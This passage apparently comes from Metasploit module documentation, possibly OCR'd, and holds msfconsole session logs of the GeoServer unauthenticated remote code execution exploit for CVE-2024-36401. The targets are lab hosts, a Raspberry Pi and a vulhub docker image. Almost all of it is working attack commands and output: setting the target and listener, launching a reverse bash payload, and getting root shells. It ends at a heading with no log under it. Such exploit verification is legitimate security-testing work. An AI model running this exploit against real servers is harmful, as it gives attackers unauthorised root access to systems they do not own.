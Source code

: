 ```msf
Linux cuckoo 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-11 16:15:31 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-11) aarch64 GNU/Linux
pwd
/usr/share/geoserver
exit
```
###  GeoServer 2.23.2 on vulhub docker image - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 0
target => 0
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.42
rhosts => 192.168.201.10
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.2
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.42:60290) at 2024-07-11 18:42:08 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux e3f986905bde 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 GNU/Linux
pwd
/mnt/geoserver
```
###  GeoServer 2.23.2 on vulhub docker image - linux/x64/meterpreter_reverse_tcp
